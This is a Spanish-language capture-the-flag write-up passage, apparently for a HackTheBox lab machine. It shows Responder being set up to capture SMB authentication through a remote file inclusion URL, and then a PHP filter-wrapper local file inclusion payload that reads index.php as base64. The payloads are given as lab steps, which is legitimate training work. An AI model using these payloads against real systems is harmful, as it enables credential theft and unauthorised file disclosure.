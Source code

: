 ![Captura de pantalla -2022-04-11 22-28-50](https://user-images.githubusercontent.com/103068924/162826505-7365e10f-5098-48a6-9442-97f614dfd888.png)
     
 Recordar que el repositorio 'Responder' se clonara el directorio en el que nos encontremos. 
 Ahora podemos ver como dentro del directorio 'Responder' se han clonado los siguientes 
 archivos:
 
 ![Captura de pantalla -2022-04-11 22-31-04](https://user-images.githubusercontent.com/103068924/162827046-93ba9dfa-fbe9-4396-bbaa-af556f168f95.png)

 Ahora vamosa a comprobar que en archivo 'Responder.conf' tenemos configurados los parametros de escucha
 SQL y SMB en On. Para ver el archivo podemos utilizar el comando 'cat' y para modificarlo el comando 'nano'.
 
             nano Responder.conf

 ![Captura de pantalla -2022-04-11 22-45-54](https://user-images.githubusercontent.com/103068924/162829073-13d21638-c3a8-4f37-a686-eec04a244055.png)

 En caso de estar en modo off lo cambiamos al on, guardamos (Cntrl + o) y salimos (Cntrl + x).
 
 Ya tendriamos la herramienta Responder preparada. Ahora debemos iniciar Responder con python3
 y utilizar el indicado -I para activar el modo escucha.
 
                sudo python3 Responder.py -I tun0 
                
![Captura de pantalla -2022-04-11 22-58-20](https://user-images.githubusercontent.com/103068924/162831086-07194fd6-8afb-40a1-ad6f-1b65af7975be.png)

![Captura de pantalla -2022-04-11 22-59-03](https://user-images.githubusercontent.com/103068924/162831102-c08c5c76-bac8-4c54-821b-466124bfd0eb.png)

 Una vez tenemos el Responder listo y en escucha, debemos configurar un parámetro dentro del servidor de la
 máquina para que incluya un recurso de nuestro servidor SMB.
 
 Este parámetro lo configuraremos mediante el navegador web. Para ello incluiremos nuestra ip (tun0) lo cual
 podemos ver mediante el comando 'ifconfig'.
 
          http://unika.htb/?page=//[Ip de nuestra tun0]/somefile
          
![Captura de pantalla -2022-04-12 00-04-50](https://user-images.githubusercontent.com/103068924/162841324-0250adad-5f7f-49ed-b487-81740e71a37a.png)

Tras intentar realizar la escucha varias veces y recargar la página no consdigo establecer la conexión.
He revisado varias veces la configuración y por algún motivo Responder no me funciona.

# File Local Inlcusion PHP

Así que tras ver que con Responder no podía, empece a buscar vulnerabilidades comunes de File Local Intrusion
y tras mucho investigar encontre una intrusión conocida como wrapper php//filter.

Donde básicamente mediante el buscador, incluimos una dirección que nos reporta el hash en base64.
Tras probar las distintas obciones, está fue la que me funciono a mi:

             page=php://filter/convert.base64-encode/resource=index.php
